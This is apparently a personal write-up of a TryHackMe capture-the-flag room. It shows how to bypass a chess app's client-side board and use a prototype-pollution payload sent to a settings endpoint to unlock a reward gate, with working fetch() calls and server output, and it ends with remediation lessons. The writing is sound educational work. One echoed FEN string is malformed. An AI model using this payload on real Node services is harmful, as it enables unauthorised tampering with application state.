



#  Fools Mate, Revenge 

**Room:** Fools Mate, Revenge
**Difficulty:** Medium
**Category:** Web Exploitation
**Target:** `http://10.48.139.191:3000`

## Overview

This room presents a small chess web app called **EndgameTrainer**. On the surface it looks like a simple puzzle: the board says *"Mate-in-one, White to move"*, and you're expected to find and play the winning move.

The twist is in the name of the room. The client-side board is not trustworthy — the real chess logic and the real "win" condition live on the server, and the two don't always agree with each other. Getting the flag means reading the front-end code carefully, talking to the API directly instead of clicking pieces, and finally exploiting a **prototype pollution** bug in how the server merges user settings.

This writeup walks through the whole process, in the order I actually did it.

---

## Step 1 — Poking at the app normally

I opened the target in the browser and had a look at the board. It's a standard 8x8 chess UI (`bK`, `bP`, `wP`, `wR`, `wK` SVG pieces, a move list, a reset button, and a settings panel for theme/piece-set/animation).

The banner claims it's a mate-in-one for White. But before touching any pieces, I opened DevTools → **Network** and checked what the page was actually loading.


Interesting detail immediately: the JSON response from `GET /state` (bottom right panel) reported:

```json
{
  "ok": true,
  "fen": "7k/5K2/8/7P/8/8/8/8 b - - 16 28",
  "status": "draw",
  "turn": "b"
}
```

That's a completely different position than what the board displayed, and it says it's **Black's turn** in a **draw**, not "White to move, mate in one." This was the first hint that the board rendered client-side is decorative — the source of truth is whatever `/state` (and later `/api/state`) returns from the server, tied to my session.

---

## Step 2 — Getting a legitimate, solvable position

Refreshing / resetting a couple of times eventually surfaced a real, solvable position:


```json
{
  "ok": true,
  "fen": "6k1/5ppp/8/8/8/8/5PPP/R5K1 w - - 0 1",
  "status": "ongoing",
  "turn": "w"
}
```

Reading the FEN: Black's king is on `g8`, boxed in by its own pawns on `f7`, `g7`, `h7` (no escape squares on the back rank). White has a rook on `a1` and king on `g1`.

**`Ra1–a8#`** is mate: the rook covers the entire 8th rank, and the king cannot step to `f7`/`g7`/`h7` because those squares are occupied by its own pawns.

---

## Step 3 — Confirming the session model

Before touching the move, I checked the **Cookies** tab to understand how the server was tracking my game:


A single `sid` cookie (`499e075c25f8a05fcb934d78033780d1`) is sent with every request. This confirms the entire board state — the FEN, whose turn it is, whether the game is over — lives server-side, keyed off this cookie. The client is just a renderer; it has no authority over the actual game.

---

## Step 4 — Reading the client source

Rather than guessing at endpoint names, I pulled the full front-end source (`app.js`) via DevTools' Sources panel / Debugger and read through the move-handling logic.



The relevant parts of `app.js`:

```js
async function sendMove(from, to, promotion) {
  ...
  res = await fetch('/api/move', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ from, to, promotion: promotion || undefined })
  });
  ...
}

function finalize(data) {
  refreshHighlights();
  updateStatus();
  if (data.flag) {
    showFlag(data.flag);
  } else if (data.locked) {
    showSystemNotice(data.message || 'Checkmate! Reward is locked for this account.');
  }
}
```

Two things fell out of this immediately:

1. Moves are POSTed to **`/api/move`** as raw `{from, to, promotion}` JSON — there's nothing stopping me from calling this endpoint directly from the console, skipping the drag-and-drop UI entirely.
2. On checkmate, the client checks for `data.flag` **first** — but there's a second branch, `data.locked`, that shows a "Reward is locked for this account" message instead. In other words: winning the game is not, by itself, enough to get the flag. There's a separate server-side gate.

The bundled `chess.js` (a standard open-source move-validation library) confirmed the client does full legal-move checking locally purely for UI purposes (highlighting legal squares, etc.) — it has zero bearing on what the server will accept.

---

## Step 5 — Playing the mate directly against the API

Instead of dragging the rook, I called the move endpoint straight from the DevTools console:

```js
fetch('/api/move', {
  method: 'POST',
  headers: {'Content-Type':'application/json'},
  body: JSON.stringify({from:'a1', to:'a8'})
}).then(r => r.json()).then(console.log)
```

The response confirmed the checkmate — and the "locked" branch from the source code fired exactly as expected:


```json
{
  "ok": true,
  "move": "a1a8",
  "fen": "R6k/5ppp/8/8/8/8/5PP1/7P6K1 b - - 2 4",
  "status": "checkmate",
  "turn": "b",
  "winner": "white",
  "locked": true,
  "message": "Checkmate! No reward for you.",
  "reason": "reward gate closed: session.config.unlocked is not set"
}
```

That `reason` field is the actual key to the room. The server checks a value at `session.config.unlocked` before it will hand out the flag, and that flag is presumably per-session (tied to the `sid` cookie), not global.

---

## Step 6 — Finding the settings endpoint

The app has a preferences panel (theme, piece set, animation speed) that saves via:

```js
async function savePrefs() {
  const prefs = {
    theme: themeSelect.value,
    pieceSet: pieceSetSelect.value,
    animationMs: Number(animSelect.value)
  };
  ...
  const res = await fetch('/api/settings', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify(prefs)
  });
  const data = await res.json();
  if (data && data.preferences) applyPrefs(data.preferences);
}
```

This looked like the natural place to try and influence `session.config`. The server presumably takes whatever JSON body is POSTed here and merges it into some internal config object tied to my session — and only echoes back a fixed whitelist of keys (`theme`, `pieceSet`, `animationMs`) in the response, regardless of what else was actually stored.

That distinction matters: an empty-looking `{"preferences": {}}` response does **not** prove a given key was rejected — it only proves it wasn't included in what gets echoed back. The only reliable way to check whether a given payload had any effect was to immediately reset the game and replay the checkmate, then inspect the `reason` field again.

---

## Step 7 — The vulnerability: prototype pollution

Given the very specific error string — `session.config.unlocked` — this smelled like a server merging user-supplied JSON into an internal object using a naive/recursive merge (something like a homemade deep-merge or an unguarded use of a library such as lodash's `_.merge`). That class of bug is a textbook setup for **prototype pollution**: if the merge function walks into a key literally named `__proto__` and keeps assigning into it, you end up writing directly onto `Object.prototype` — which is shared by *every* plain object in the running Node process, including whatever internal `session.config` object the server checks before releasing the flag.

The payload:

```js
fetch('/api/settings', {
  method: 'POST',
  headers: {'Content-Type':'application/json'},
  body: JSON.stringify({ "__proto__": { "unlocked": true } })
}).then(r => r.json()).then(console.log)
```

Followed immediately by a fresh reset + the winning move again:

```js
fetch('/api/reset', { method: 'POST' })
  .then(r => r.json())
  .then(() => fetch('/api/move', {
    method: 'POST',
    headers: {'Content-Type':'application/json'},
    body: JSON.stringify({from:'a1', to:'a8'})
  }))
  .then(r => r.json())
  .then(console.log)
```
If  this  payload not  worked  try this :

...
   // Attempt 1: proto pollution flat
 fetch('/api/settings', {
    method: 'POST',
    headers: {'Content-Type':'application/json'},
    body: JSON.stringify({ "__proto__": { "unlocked": true } })
  }).then(r => r.json()).then(console.log)
  .then(() => fetch('/api/reset', { method: 'POST' }))
  .then(r => r.json())
  .then(() => fetch('/api/move', {
    method: 'POST',
    headers: {'Content-Type':'application/json'},
    body: JSON.stringify({from:'a1', to:'a8'})
  }))
  .then(r => r.json())
  .then(console.log)
...

---

## Step 8 — Flag

This time the response was different — no more `locked: true`, and a `flag` field appeared instead:





```json
{
  "ok": true,
  "move": "a1a8",
  "fen": "R6k/5ppp/8/8/8/8/5PPP/6K1 b - - 1 1",
  "status": "checkmate",
  "turn": "b",
  "winner": "white",
  "flag": "THM{pr0t0_p0lluted_th3_r3f3r33}"
}
```

**Flag:** `THM{pr0t0_p0lluted_th3_r3f3r33}`

---

## Root Cause

Two separate weaknesses were chained together here:

1. **Client-side trust** — the visible chess board and its move validation exist purely for UI polish. Nothing stops a player from talking to `/api/move` directly, bypassing whatever position the UI displays.
2. **Prototype pollution in `/api/settings`** — the settings endpoint merges attacker-controlled JSON into a config object without guarding against the `__proto__` key. Polluting `Object.prototype.unlocked` satisfied a `session.config.unlocked` check that was meant to gate the reward behind some (unseen) legitimate flow, effectively unlocking the flag for every session, not just mine.

## Lessons

- Never trust a client-rendered game state or its move validator — always verify server-side.
- Never deep-merge untrusted JSON into long-lived objects without stripping dangerous keys (`__proto__`, `constructor`, `prototype`). Use `Object.create(null)`, a `Map`, or a vetted merge utility with pollution protection (e.g. recent `lodash` with the fix, or manual allow-listing of keys).
- Treat unusually specific error/reason strings from an API as a gift — they often describe exactly which internal check you need to satisfy.

---

*Writeup by me, for my own notes / portfolio after completing the TryHackMe room "Fools Mate, Revenge."*
